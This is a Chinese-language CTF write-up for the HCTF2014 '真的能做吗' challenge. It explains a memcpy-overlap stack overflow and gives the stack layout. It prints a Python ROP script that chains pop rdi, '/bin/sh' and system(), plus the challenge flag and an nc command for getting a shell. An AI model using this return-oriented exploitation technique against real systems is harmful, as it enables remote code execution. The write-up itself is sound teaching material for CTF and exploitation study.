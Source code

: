 ```yaml
---
layout: post
title: HCTF2014 真的能做吗600 writeup
catagories: [ctf]
tags: [ctf, writeup, hctf, xctf]
---
```

> wow的这一题的binary同时也是“真的能做吗”的binary.

这一题的问题，在分析wow这一题已经发现了，`memcpy()`函数产生溢出，
但`memcpy`函数的dst和src如果超过`0x30+0x8(rbp)+0x8(retaddr)`这么长，会产生dst和src重叠的问题
查上一下，`memcpy()`在处理重叠问题的时候会产生未知的效果，我也试了一下，它只
保留最终的`0x30+0x8+0x8`这些数据，前面的数据都会丢失，那也就是说，我们的可以利用的缓
冲区也就是从`ebp-0x30`到`retaddr`之间，直接改写，就改写了retaddr。

利用ROPGadget找到`pop rdi, ret`和`pop xx, pop xx, pop xx, ret`, 因为这题的libc是静态编译到wow的，所以可以找到`system()`
的地址，IDA里也可以搜索`/bin/sh`,万事俱备。

同时，由于需要绕过前面这个大循环，所以需要wow题的flag.此flag长度22,那么我们的栈大概是这样的布局

```
//memcpy之前
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     xxx
rip+0x10    xxx
rip+0x10    xxx

//memcpy之后
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     wowflag
rip+0x10    wowflag8
rip+0x18    wowflag22+"AA"
rip+0x20    poprdi_gadget
rip+0x28    binsh_addr
rip+0x30    system_addr
rip+0x38    "B"*8
rip+0x40    pop3ret_addr
...(以下每0x40字节重复)
```

因此生成shellcode的代码为：

```python
#!/usr/bin/env python2
from struct import pack

pop3    = 0x00007ffff75f35ad
poprdi  = 0x00007ffff75f59f2
system  = 0x00007FFFF7618310
binsh   = 0x00007FFFF774CFE7 

pad = "hctf{LJ_y6cdc_qweert!}"

shellcode = ""
shellcode += pad 
shellcode += "A"*(24-len(pad)) 

shellcode += pack("<Q", poprdi)
shellcode += pack("<Q", binsh)
shellcode += pack("<Q", system)
shellcode += "B"*8

shellcode += pack("<Q", pop3)

fd = open("shellcodez", "w")
fd.write(shellcode)
fd.close()
```

输入`cat shellcodez -| nc addr port`拿到shell,flag在`/home/wow/`下

